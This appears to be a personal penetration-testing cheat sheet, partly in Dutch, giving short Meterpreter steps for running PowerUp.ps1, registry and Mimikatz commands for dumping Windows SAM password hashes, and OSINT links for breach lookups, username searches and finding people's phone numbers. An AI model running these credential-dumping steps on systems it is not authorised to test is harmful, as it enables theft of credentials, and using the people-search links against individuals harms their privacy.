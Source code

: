 ### PowerUp.ps1 with Metasploit
- `upload <location of PowerUp.ps1>`
- in meterpreter shell: `load powershell`
- switch to powershell: `powershell_shell`
- run script: `. .\PowerUp.ps1`
- `Invoke-AllChecks`

## Mimikatz
- dump SAM hive (in cmd): `reg save HKLM\SAM SAM`
- dump SYSTEM hive (in cmd): `reg save HKLM\SYSTEM SYSTEM`
- download mimikatz on Windows PC: https://github.com/0x47root/mimikatz
- run mimikatz
- `privilege::debug`
- `token::elevate`
- `log hash.txt`
- `lasdump::sam SYSTEM SAM`
---------------------------------------------------------------------------------------------------------------------------------------------------------------
# OSINT

## Data breach search
- https://haveibeenpwned.com/
- https://scylla.sh/
- https://dehashed.com/ (wel betaald)

## grep.app
- Tool om Git repositories te doorzoeken.

## RevealName.com
- Reveals someone's phone number

## Username find tools
- https://namechk.com/
- https://whatsmyname.app/
- https://namecheckup.com/
- https://github.com/WebBreacher/WhatsMyName
- https://github.com/sherlock-project/sherlock

## Reverse Image Search
- https://google.com
- https://tineye.com/
- https://www.bing.com/visualsearch?FORM=ILPVIS
- https://yandex.com/images/
- https://pimeyes.com
---------------------------------------------------------------------------------------------------------------------------------------------------------------
# Crypto
- useful site: rumkin.com/tools
